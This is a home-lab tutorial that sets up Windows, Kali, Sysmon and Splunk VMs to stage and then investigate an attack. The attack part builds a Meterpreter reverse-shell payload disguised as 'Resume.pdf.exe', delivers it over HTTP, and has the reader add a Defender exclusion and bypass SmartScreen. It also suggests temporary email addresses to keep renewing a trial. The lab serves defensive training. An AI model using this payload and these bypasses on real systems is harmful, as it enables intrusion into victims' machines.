# You Give HR A Bad PDF

## Description
Established a home lab environment utilizing VMware to simulate an attack scenario between Windows and Kali Linux VMs. This setup shows scripts usage within Metasploit and real-time event monitoring through Sysmon and Splunk.

## Prerequisites

### VMware Workstation Pro Setup
VMware Workstation Pro is a type 2 hypervisor which serves to isolate and create a dedicated communication channel between the lab environments. The installation is as follows:

1. Download VMware Workstation Pro, that is hosted at: [https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)

2. Verify the executable's integrity through the File Checksums. In this case, the SHA-256 and MD5 checksums are found at the installer page.
    
3. Open a PowerShell terminal within the same download's location and execute:
    ```powershell
    Get-FileHash <file-name>
    ```

    {: .popup-img }

    Therefore, the hash can be matched with the provided list.

    {: .popup-img }

4. Proceed with the installation of VMware Workstation Pro by accepting the `End-User License Agreement`

    {: .popup-img }

5. There is a compatible setup, referring to Hyper-V or Device/Credential Guard being enabled. 

    Hence, the virtual machines will be launched using the Windows Hypervisor Platform (WHP).

    {: .popup-img }

6. After setting the installation folder, tick the box `Check for product updates on startup`, to always ensure an up-to-date app version and mitigate risks like VM Escape. 

    Also, joining the `VMware Customer Experience Improvement Program` is optional.

    {: .popup-img }

7. Finally, choose whether to create the shortcuts, then click `Install`. The VMware Workstation Pro interface should look like this:

    {: .popup-img }

### Windows Setup
Windows 11 is the most recent Operating System developed by Microsoft. This is the host machine which will be targeted by Kali Linux.

1. Download the Windows Installation Media found at: [https://www.microsoft.com/en-us/software-download/windows11](https://www.microsoft.com/en-us/software-download/windows11)

2. During the install process, at the `Choose which media to use` section, select `ISO file`

    {: .popup-img }

3. In VMware, click on `Create a New Virtual Machine`, then the `Typical` configuration and load the `Windows.iso` image.

    {: .popup-img }

4. At the `Encryption Information` section, choose to encrypt all the files and set a password that you store in a safe place, such a password manager, in the host machine.

    {: .popup-img }

    Also, select `Store virtual disk as a single file` in the Specify Disk Capacity section.

    {: .popup-img }

    **Note:** By default, the 64 GB of storage is not pre-allocated.

5. The summary will show the recommended hardware settings, except for one which must be configured manually, then click on `Customize Hardware...`

    {: .popup-img }

    The network adapter is set as `NAT` to share the host's internet connection, and so it will eventually require a Windows Account. Therefore, select `Host-only`, which will be helpful to bypass the remaining setup.

    {: .popup-img }

6. Finish the machine creation and click on `Power on this virtual machine`

7. During the configuration process, make sure to select `I don't have a product key`

    {: .popup-img }

    In addition, select Windows 11 Pro, because of the `RDP` feature explained here: [https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-supported-config](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-supported-config)

    {: .popup-img }

8. During the setup, it will ask to connect to a network. To bypass this step, do `Shift + F10` to open the `CMD` and execute the following command:

    ```powershell
    oobe\bypassnro
    ```

    It will restart the machine and enable the `I don't have internet` option, select it and finish the setup.

    {: .popup-img }

9. After the Windows setup, ensure a smoother virtualization experience by going to the `VM` tab and select `Install VMware Tools`

    {: .popup-img }

    It will load the drive and ask to execute the `Run setup64.exe`, click on it and follow the default options.

    {: .popup-img }

10. To have internet in the VM, go to the left bar, right click on the machine name and select `Settings...`

    {: .popup-img }

    And, in the `Network Adapter` section choose `NAT` to ensure the VM is not alongside the host network, but has its own through the host `IP`

    {: .popup-img }

11. Finally, for future recovery of the fresh install, go to the `VM` tab, then click on `Snapshot` and `Take Snapshot...`

    {: .popup-img }

    Assign a name like "Fresh Install" and click `Take Snapshot`

    {: .popup-img }

### Sysmon Setup
Sysmon is a service that monitors and logs system activity. This tool will be working on the Windows VM.

1. In the local machine, go to: [https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

    Then, click on `Download Sysmon`

    {: .popup-img }

2. Sysmon can be installed with a configuration file. The balanced approach is found at: [https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml](https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml)

    Right click and select `Save as`, then keep it on a memorable location.

    {: .popup-img }

3. Open the `Downloads` folder and extract the `Sysmon.zip` as follows:

    {: .popup-img }

    Then, drag and drop the `sysmonconfig.xml` into the generated `sysmon` folder. The content should look like this:

    {: .popup-img }

4. Open a PowerShell as an administrator within the same folder location and execute the following command to install Sysmon with the configuration file:

    ```powershell
    .\Sysmon64.exe -i .\sysmonconfig.xml
    ```

    Then, proceed with the default installation process.

    {: .popup-img }

5. To check if Sysmon is up and running, press the Windows button to search `Services`, open it and then look for `Sysmon64`

    {: .popup-img }

    Also, at the `Event Viewer`, Sysmon can be found via `Applications and Services Logs` -> `Microsoft` -> `Windows` -> `Sysmon`

    {: .popup-img }

### Splunk Setup
Splunk is a Security Information and Event Management (SIEM) tool for searching, monitoring and analyzing machines' data. This solution will be working on the Windows VM.

1. In the local machine go to: [https://www.splunk.com/en_us/download/splunk-enterprise.html](https://www.splunk.com/en_us/download/splunk-enterprise.html)

    It requires an account to try the tool for 60 days.
    
    In this case, you may use a temporary email with: [https://temp-mail.org](https://temp-mail.org), which could serve as a workaround everytime Splunk is tested out.

    {: .popup-img }

2. Now, click on `Download Now` to get the Splunk installer.

    {: .popup-img }

    Also, the integrity of the executable can be checked in the same way as the third step of the VMware Setup. Retrieve the hash by clicking on `More` and then on `Download SHA512 to verify your bits`

    {: .popup-img }

    It will download a file which can be opened with Notepad, and since the hash algorithm is SHA512, specify that in the PowerShell as follows:

    ```powershell
    Get-FileHash <file-name> -Algorithm SHA512
    ```

    {: .popup-img }

3. Execute the Splunk installer and follow the default settings. It will setup Splunk in a `Local System Account`, which is the Windows VM. 

    In case, Splunk needs to oversee data across multiple machines within an Active Directory domain, change to `Domain Account`

    {: .popup-img }

4. Splunk is now installed and running on `http://127.0.0.1:8000`

5. In order to log the system events data, below the `Common tasks` tab, click on `Add data`

    {: .popup-img }

    Then, click on `Monitor`

    {: .popup-img }
    
    Select `Local Event Logs` and choose `Application`, `Security` and `System`, which are standard for monitoring endpoints.

    {: .popup-img }

    Leave the default host value and click on `Create a new index`

    {: .popup-img }
    
    The index can be called `endpoint`, which will be the Windows host's searchable repository for ingested data.

    {: .popup-img }

    The Input Settings should look like the following.

    {: .popup-img }

    After that, click on `Review` and then on `Submit`

    {: .popup-img }

    Now, the logs can be retrieved by querying the endpoint index, for example:

     ```powershell
    source="WinEventLog:*" host="DESKTOP-I6QV43M" index="endpoint"
    ```

    {: .popup-img }

6. Install the `Splunk Add-on for Sysmon` by going to `Apps` -> `Find More Apps`

    {: .popup-img }

    Then, look for `Sysmon` -> Click on `Install`

    {: .popup-img }

7. To ensure that Sysmon logs are ingested into Splunk, go to `C:\Program Files\Splunk\etc\system\local`, and look for the file `inputs.conf`

    If the file is not present, then go back to `system` folder, click on the `default` folder, and copy the `inputs.conf` file into the `local` folder, as shown in the following image.

    {: .popup-img }

    Now, open the `inputs.conf` file, go to the bottom and paste the following configuration:
    
    ```
    [WinEventLog://Microsoft-Windows-Sysmon/Operational]
    index = endpoint
    disabled = false
    renderXml = true
    source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational

    [WinEventLog://Microsoft-Windows-Windows Defender/Operational]
    index = endpoint
    disabled = false
    source = Microsoft-Windows-Windows Defender/Operational
    blacklist = 1000,1001,1002,1150,1151,2000

    [WinEventLog://Microsoft-Windows-PowerShell/Operational]
    index = endpoint
    disabled = false
    source = Microsoft-Windows-PowerShell/Operational
    blacklist = 4105,4106,40961,40962

    [WinEventLog://Application]
    index = endpoint
    disabled = false

    [WinEventLog://Security]
    index = endpoint
    disabled = false

    [WinEventLog://System]
    index = endpoint
    disabled = false
    ```

    There are blacklisted event IDs, which reduces the noise from routine scanning or operational information. The following are the details:

    - **Windows Defender:** Based on the [Official Microsoft Defender Documentation](https://learn.microsoft.com/en-us/defender-endpoint/troubleshoot-microsoft-defender-antivirus)

        - **1000:** An antimalware scan started.
        - **1001:** An antimalware scan finished.
        - **1002:** An antimalware scan was stopped before it finished.
        - **1150:** The antimalware platform is running and in a healthy state.
        - **1151:** Endpoint Protection client health report.
        - **2000:** The antimalware definitions updated successfully.

    - **Powershell:** Based on [S0cm0nkey’s Security Reference Guide](https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/blue-defense/event-detection/detection-use-cases/windows-event-id-logging-list) and [MyEventLog](https://www.myeventlog.com/find)

        - **4105:** Script Block Execution start.
        - **4106:** Script Block Execution stop.
        - **40961:** PowerShell console is starting up.
        - **40962:** PowerShell console is ready for user input.
    
        **Note:** Event ID **4104** refers to Script Block Logging, which leverages the hunting of suspicious Powershell commands. This is a better approach than relying on events **4105** and **4106**, that may cause noisy logs. For further reference: [Malware Archeology](https://static1.squarespace.com/static/552092d5e4b0661088167e5c/t/5ba3dc87e79c703f9bfff29a/1537465479833/Windows+PowerShell+Logging+Cheat+Sheet+ver+Sept+2018+v2.2.pdf) and [Black Hills Information Security](https://www.blackhillsinfosec.com/powershell-logging-blue-team)

    After setting the mentioned configuration, restart the `Splunkd Service`, as shown in the image below.

    {: .popup-img }

### Kali Linux Setup
Kali Linux is a Debian-based Linux distribution which is commonly used for penetration testing. Since this scenario is more focused on defense, the VM will be taken from a pre-built configuration.

1. Download the Kali Linux pre-built VM found at: [https://www.kali.org/get-kali/#kali-virtual-machines](https://www.kali.org/get-kali/#kali-virtual-machines)

    {: .popup-img }

2. The SHA256sum can be retrieved by clicking on the `sum` tab within the VMware image.

    {: .popup-img }

    Then, in Powershell compare the previous hash with the local downloaded file.

    {: .popup-img }

3. Extract the `.7z` into the VMWare folder that hosts all the VMs.

    {: .popup-img }

4. In order to load the pre-built VM, go to `File` -> `Open...`

    {: .popup-img }

    Look for the `.vmx` file, which contains the VM's hardware settings definitions.

    {: .popup-img }

5. Before powering up the VM, ensure that it is compatible with the actual VMware version. Therefore, click on the VM, and then on `Upgrade this virtual machine`

    {: .popup-img }

6. In this case, the hardware compatibility must align with the VMware `Workstation 25H2` version, let the default configuration and click on next.

    {: .popup-img }

7. Select `Alter this virtual machine`, so the resources usage is optimized, as it is not creating a new VM for this particular use case.

    {: .popup-img }

8. Review the changes and click on `Finish`

    {: .popup-img }

9. The VM settings need to be reviewed, as there are default options that should be disabled, hence go to `Edit virtual machine settings` -> `Options`

    {: .popup-img }

    In this view, go to the `Shared Folders` tab and disable `Folder sharing`, to mitigate the exposure of the host's directories to a potential compromised VM.

    {: .popup-img }

    Also, at the `Guest Isolation` section, uncheck the boxes `Enable drag and drop` and `Enable copy and paste`

    {: .popup-img }

    To save the changes, click on `OK`

10. After that, power on the VM and login with the default credentials `kali/kali`

    {: .popup-img }

11. The Operating System can be updated and upgraded. Before that, open a terminal with `Ctrl + Alt + T` and execute the following command:

    ```powershell
    cat /etc/apt/sources.list
    ```

    The output shows the current sources, so this ensures that updates are retrieved from trusted repositories. 
    
    {: .popup-img }
    
    In this case, it points to the official Kali repository at the `kali-rolling` branch, which is a continuous stable version. 
    
    If the latest fixed version is needed, may refer to the `kali-last-snapshot` branch at [Kali Branches](https://www.kali.org/docs/general-use/kali-branches)

    Now, run the command below to check for available package updates:

    ```powershell
    sudo apt update
    ```

    {: .popup-img }

    Finally, to upgrade the Operating System with the latest packages, enter this command:

    ```powershell
    sudo apt dist-upgrade -y
    ```

    {: .popup-img }

    **Note:** Make sure to take a snapshot after setting up Kali Linux, in case a rollback needs to be done due to any future system issue.

### Network Setup
To minimize security risks, the network must be segmented and isolated from the exterior, so the involved machines, in this educational attack/defense scenario, can communicate between them and not outside of the environment.

1. Go to any VM Settings, then on Network Adapter find the option `LAN Segments...`
    
    Click on `Add` and set a name to the LAN segment, such as `Test`

    {: .popup-img }

    The new `Test` LAN segment should be selected, instead of any other network connection.

    {: .popup-img }

    **Note:** Please do this step for both machines.

2. The following are the steps for the Windows Host network setup:

    **2.1.** Right click on the Internet icon and select `Network and Internet settings`

    {: .popup-img }

    **2.2.** Then, click on `Advanced network settings`

    {: .popup-img }

    **2.3.** Now, click on the accordion called `Ethernet0` and then on the edit button of `More adapter options`

    {: .popup-img }

    **2.4.** Find `Internet Protocol Version 4 (TCP/IPv4)` and double click it.

    {: .popup-img }

    **2.5.** Below the section `Use the following IP address`, establish an IPv4 address. 
    
    In this case, the IP address `10.0.0.1` mimics the way workloads might be setup in any cloud provider, as it is a class A within the private IP range.

    The number of hosts is limited by the subnet mask, that is `255.255.255.252`
    
    Consequently, a total of 2 hosts are allowed for this lab.

    {: .popup-img }

    **2.6.** Save the changes and open a CMD, where the command `ipconfig` is executed to display the network layout. It should contain the recently saved configuration.

    {: .popup-img }

3. This is the network guide for the Kali Linux Host:

    **3.1.** Right click on the Internet icon and select `Edit Connections...`

    {: .popup-img }

    **3.2.** Click on `Wired connection 1` and then on the configuration wheel.

    {: .popup-img }

    **3.3.** Go to the `IPv4 Settings` tab, choose the `Manual` method.

    {: .popup-img }

    Then, add the IPv4 address. In this case, the IP address `10.0.0.2` is the next available address for being used by a host, due to the 10.0.0.0 is considered as the network address and 10.0.0.3 is the broadcast address, used for communication with all devices in the subnet.

    The Netmask can be represented as `30`, which means 30 bits are allocated for the network portion, leaving 2 bits for host addresses. This results in a total of 4 IP addresses: 1 network address, 2 usable host addresses, and 1 broadcast address.

    {: .popup-img }

    **3.4.** Open the terminal with the shortcut `Ctrl + Alt + T` and execute `ifconfig`, which displays the newly saved network setup.

    {: .popup-img }

    **3.5.** Trying to `ping` the host `10.0.0.1` would fail, because of the Firewall configuration in the Windows machine.

    {: .popup-img }

4. As mentioned in step **3.5**, the Kali Linux machine cannot ping the Windows host, due to the Firewall blocks the ICMP requests by default.

    However, the communication can be checked through the opposite direction, from the Windows host to the Kali Linux machine, by executing `ping 10.0.0.2`

    {: .popup-img }

5. Also, the Remote Desktop Protocol must be enabled in the Windows host, as there must be reverse shell capabilities for the Kali Linux machine.

    Go to the Windows settings, then on `System` and find `Remote Desktop`

    {: .popup-img }

    Turn on the switch and confirm the Remote Desktop enabling.

    {: .popup-img }

## Attack Execution
A reverse shell on the Windows host will be setup, involving tools like Nmap, MSFvenom and Metasploit. This exercise follows the Cyber Kill Chain, which is a model that outlines the stages of a cyberattack.

### Reconnaissance
Nmap is a free and open source utility for network mapping and security auditing. This tool is being used to scan the Windows host open ports. This helps to find gaps for allowing access and communication with the victim.

1. Nmap provides a manual to guide its use and capabilities. To show it, open a terminal in Kali Linux and execute `nmap -h`

    {: .popup-img }

2. Execute the following command:

    ```powershell
    nmap -A 10.0.0.1 -Pn
    ```

    Where `-A` performs an aggressive scan with multiple techniques such as `-O` for OS detection, `-sV` for open ports version detection, `-sC` for default script scanning and `--traceroute` for mapping the hop path.

    Also, `-Pn` disables host discovery, known as ping, and forcibly conducts the port scan.

    {: .popup-img }

3. Nmap found port `3389` open, which corresponds to the Remote Desktop Protocol (RDP). This information will be used for the next stage.

### Weaponization
MSFvenom is a Metasploit utility for generating payloads, shellcodes, and exploits. This tool is being used to create the reverse shell payload, allowing remote access control on the victim's device. Alongside, Msfconsole will be used to listen on a predefined port.

1. Msfvenom has a manual which can be looked at, by simply typing `msfvenom -h`

    {: .popup-img }

2. List the payloads with `msfvenom -l payloads`, and find `windows/x64/meterpreter/reverse_tcp`, which uses in-memory DLL injection to avoid writing files to disk, making it stealthier than traditional payloads.

    {: .popup-img }

    For faster finding, add a search pipe to the command like: 
    
    ```powershell
    msfvenom -l payloads | grep reverse_tcp
    ```

    {: .popup-img }

3. Create the reverse shell payload with the following command:

    ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.2 lport=4444 -f exe -o Resume.pdf.exe
    ```

    Where `-p` specifies the payload, `lhost` establishes the listening machine IP, `lport` sets the listening port, `-f` defines the format, and `-o` saves the payload into the file `Resume.pdf.exe`

    {: .popup-img }

    The file was saved in the path `/home/kali`. It can be moved to a more convenient place like `/home/kali/Desktop`

    {: .popup-img }

    Also, the file type can be retrieved with the command `file Resume.pdf.exe`

    {: .popup-img }

4. Open Metasploit by typing `msfconsole`

    {: .popup-img }

    Now, execute `use exploit/multi/handler`, which helps to manage the incoming connection from the payload.

    {: .popup-img }

    By typing `options`, the payload information will be displayed, and needs to be updated with the actual payload `windows/x64/meterpreter/reverse_tcp`

    {: .popup-img }

    To do that, execute `set payload windows/x64/meterpreter/reverse_tcp`

    {: .popup-img }

    Also, the lhost needs to be configured as `set lhost 10.0.0.2`

    {: .popup-img }

    Double check the options, which should look like the following:

    {: .popup-img }

    Finally, execute `exploit` to start listening in port `4444`

    {: .popup-img }

### Delivery
Python HTTP Server is an utility for serving content over a network. This tool is being used to host the `Resume.pdf.exe` file, so the Windows machine can retrieve and execute it.

1. In order to display the malicious file, execute the following command:

    ```powershell
    python3 -m http.server 9999
    ```

    {: .popup-img }

    Where `-m` runs the `http.server` module as a script, opening port `9999` for file sharing.

2. It is possible to disable Windows Defender. Although, there is an easier approach, that is adding a folder as exclusion, in this case, the `Downloads` folder.

    To do it, go to `Windows Security`, then `Virus & threat protection`, and below the section `Virus & threat protection settings` click on `Manage settings`

    {: .popup-img }
    
    After that, scroll down and click on `Add or remove exclusions`

    {: .popup-img }

    Then, click on `Add an exclusion`, select `Folder` and search the `Downloads` folder.

    {: .popup-img }

3. In the browser, type `http://10.0.0.2:9999` and download the `Resume.pdf.exe` file.

    {: .popup-img }

    SmartScreen pops up rejecting the attempted download. It is a Windows Security feature that protects against phishing or malware websites.

    {: .popup-img }

    To skip the protection, click on the three dots `...` and select `Keep`

    {: .popup-img }

    The file should be saved into the `Downloads` folder.

    {: .popup-img }

### Exploitation, Installation, Command & Control (C2)
Since a Metasploit payload is being used, the exploitation, installation and C2 stages are being automated by the malicious file `Resume.pdf.exe`, as shown in the following steps.

1. The `.exe` extension can be seen due to `File name extensions` option is enabled at the `View` -> `Show` tabs. Also, it's a good practice to enable the `Hidden items` option.

    {: .popup-img }

2. Check the SHA256 hash of `Resume.pdf.exe`, as seen in the step **3** of the VMware Workstation Pro Setup.

    {: .popup-img }

    Looking for the hash in VirusTotal, it does not find anything.

    {: .popup-img }
    
    This explains how hashes work, any minor variation made to a file, its hash changes completely, preventing detection in open-source Threat Intelligence databases.

3. Now, double click on the `Resume.pdf.exe`. When the SmartScreen warning shows up, click on `Run`

    {: .popup-img }

    It will execute the malware, but no signs of visible UI is shown in the Windows host.

### Actions on Objectives
This is the last stage of the Cyber Kill Chain, where the attacker can perform any actions in the Windows host, one of them could be executing CMD commands for further discovery of the system and internal network.

1. In the Kali Linux host, there is a successful opened session with the Windows host. Type `shell`, in order to open the Windows Command Prompt.

    {: .popup-img }

2. To create logs for Splunk, enter `net user`, `net localgroup` and `ipconfig`

    {: .popup-img }

    In this case, `net user` displays the local computer accounts, `net localgroup` shows the local groups of the device and `ipconfig` permits to visualize the TCP/IP network configuration.

3. For any other particular use case, may refer to the meterpreter documentation by typing `help`

    {: .popup-img }

## Quick Insights
This section explores the current malware execution and the related logs within the Splunk platform. Since there are not detection rules, the process is manual and depends on the artifacts that the analyst gathers along the investigation.

### Windows Findings

1. The connection to the attacker machine can be reviewed in CMD as Administrator with the command `netstat -anob`

    The parameter `-a` displays all active connections and listening ports, `-n` shows addresses and ports in numeric format, `-o` retrieves the Process ID (PID) for each connection, and `-b` reveals the executable that initiated the connection.

    {: .popup-img }

    In this case, the malicious connection is found through a deep search, but it may be optimised via Powershell as Administrator, with the following command:

    ```powershell
    netstat -anob | Select-String "10.0.0.2" -Context 0,1
    ```

    {: .popup-img }

    Where `Select-String` looks for matches based on the provided string and `-Context 0,1` helps to output the first record (0) and the next (1), otherwise just the first line would be displayed.

2. Since the previous command provided the PID, it can be searched via `Task Manager` -> `Details`, and in the upper bar type the PID, in this case `9204`

    {: .popup-img }

    Here it is confirmed that the malware is up and running with the `Resume.pdf.exe` process. 
    
    In some situations, a malicious process could spawn subprocesses to perform other desired actions, which increases the artifacts for further investigation. 
    
    For example, the legit Windows Defender SmartScreen background process contains two subprocesses.

    {: .popup-img }

3. Also, in the logs at `Event Viewer`-> `Applications and Services Logs` -> `Microsoft` -> `Windows` -> `Sysmon` -> `Operational`, more information can be discovered, such as the activity based on the PID.

    {: .popup-img }

    To do that, go to the right panel, click on `Filter Current Log...`
    
    Then go to the `XML` tab, enable the box `Edit query manually` and modify the query as follows:

    ```xml
    <QueryList>
        <Query Id="0" Path="Microsoft-Windows-Sysmon/Operational">
            <Select Path="Microsoft-Windows-Sysmon/Operational">
                *[EventData[Data="9204"]]
            </Select>
        </Query>
    </QueryList>
    ```

    {: .popup-img }

    When clicking `OK`, it will filter based on the records that contain the keyword `9204`
    
    {: .popup-img }

    In this case, the DLL Side-Loading technique was detected by Sysmon from the loaded image found at `C:\Users\strigoi\Downloads\Resume.pdf.exe`

    However, using the Event Viewer may delay the investigation, so Splunk speeds the workflow as described in the next section.

### Splunk Queries

1. For a general approach, execute the query with the created index and the filename like:

    ```powershell
    index="endpoint" Resume.pdf.exe
    ```

    {: .popup-img }

    This will return all the results, in XML format, that contain the string `Resume.pdf.exe` within the `endpoint` index.

2. In the left panel, there are multiple fields that constitute the XML events data. 

    Looking at the `dest` field, there is an anomaly, where the IP address `10.0.0.2` is shown with one record.

    {: .popup-img }

    When the IP is clicked, Splunk automatically filters by the `dest` field, as follows:

    {: .popup-img }

3. More information can be reviewed by expanding the record.

    {: .popup-img }

    For example, the signature is a `Network connection` with the technique `Non-Standard Port`

    The executed process is `Resume.pdf.exe`, that connected to the IP `10.0.0.2` at port `4444` and the action was `allowed`

    And, an important note is the timeframe when the incident occurred. In this case, it was on `2026-02-28 01:05:01` UTC Time, which is a standard for better reference in a Security Operations Center.

4. Once the analysis leads to a successful connection, the executed process needs to be reviewed for any other anomaly. For example, with the query:

    ```powershell
    index="endpoint" Resume.pdf.exe
    | table UtcTime, EventCode, EventDescription, ParentProcessGuid, ParentImage, ProcessGuid, Image, CommandLine
    ```
    Here, the results will be formatted as a table displaying the selected fields. This is a query to look for all the events, the spawned processes, their parents and command lines if applicable.

    {: .popup-img }

    The Global Unique Identifiers (GUID) are also obtained, as we may see another anomaly where the `cmd.exe` process is spawned from the `Resume.pdf.exe` process. However, `cmd.exe` could be executing benign processes, so the `GUID` helps to filter for the specific process that the malware created.

5. Since the `cmd.exe` process was created, this means that some command execution was delivered. Therefore, the following query shows the specific commands:

    ```powershell
    index="endpoint"
    | where ParentProcessGuid="{a90214f8-3f89-69a2-a910-000000001f00}"
    | table UtcTime, EventCode, EventDescription, ParentProcessGuid, ParentImage, ProcessGuid, Image, CommandLine
    ```

    The `cmd.exe` GUID was taken from the previous results and was put as the `ParentProcessGuid`, due to it is now creating other processes as follows:

    {: .popup-img }

6. The previous logs showed the executed commands `net user`, `net localgroup` and `ipconfig`, but with an extra result in a different timeframe, then to filter in a time range there are two options.

    **6.1. Filtering with the UI:** First, replace the `UtcTime` field for `_time`. This is the System Time, in this case is UTC-8.

    ```powershell
    index="endpoint"
    | where ParentProcessGuid="{a90214f8-3f89-69a2-a910-000000001f00}"
    | table _time, EventCode, EventDescription, ParentProcessGuid, ParentImage, ProcessGuid, Image, CommandLine
    ```

    Run the query for the updated results, then click on the `Time range` tab, expand the `Date & Time Range` accordion and set the timeframe including milliseconds.

    Note that the upper time boundary must be set **1 millisecond** above the target event, otherwise the `ipconfig` execution log will not be included in the results.

    {: .popup-img }

    Click on `Apply` and the results will be shown within the specified timeframe.

    {: .popup-img }

    **6.2. Filtering with the Query:** If the `UtcTime` needs to be preserved for easier correlation in International systems, then execute the following query:

    ```powershell
    index="endpoint"
    | where ParentProcessGuid="{a90214f8-3f89-69a2-a910-000000001f00}"
    | eval event_time=strptime(UtcTime, "%Y-%m-%d %H:%M:%S")
    | where event_time>=strptime("2026-02-28 01:19:59", "%Y-%m-%d %H:%M:%S") 
    AND event_time<=strptime("2026-02-28 01:20:09", "%Y-%m-%d %H:%M:%S")
    | table UtcTime, EventCode, EventDescription, ParentProcessGuid, ParentImage, ProcessGuid, Image, CommandLine
    ```

    In this scenario, millisecond precision is unnecessary. For larger datasets, filtering on `UtcTime` instead of `_time` may lead to reduced query performance, as `_time` is typically indexed and optimized for time-based searches.

    {: .popup-img }

## Lessons Learned

This lab explored the foundations of multiple systems, ranging from the VMware images, ensuring integrity through their hashes, selecting specific versions that enabled capabilities like `RDP` or encryption based on `TPM 2.0`, and verifying baseline files like the sources list pointing to official Kali repositories; up to applications refinements like Sysmon and its configuration file, or Splunk's setup for data ingestion and better visibility through Sysmon.

Also, the network setup was important to get to know how these systems communicate, and differentiate among a `host`, `broadcast` and `network` address supports business decisions when migrating to hybrid or multicloud environments. A simple but effective example was the network `isolation` for the VMs from the host machine, as they resided in their own context, not even allowed to check in shared folders or the clipboard that may have made things faster, but with an added security risk.

Furthermore, the `Cyber Kill Chain` framework was put in practice, as this is a way how an attack flow might look like. Each step from reconnaissance to actions on objectives were shaped in a form that was supported by pre-built utilities, which were not the principal subject of study, but the mindset behind each choice until getting a Remote Code Execution `(RCE)` session to blow everything up.

Finally, the generated artifacts could be retrieved in different ways, like the CMD, Task Manager and Event Viewer, but efficiency was achieved with a centralized hub like a `SIEM`, in this case Splunk, where all the raw data was transformed into valuable information that helped to catch the intruder, with enough supporting evidence, in a shorter timeframe. As every investigation differs, the limit is the analyst's creativity, or... `do threat actors act the same every time, no matter the circumstance?`

---

_**Inspired by [MYDFIR](https://www.youtube.com/@MyDFIR)**_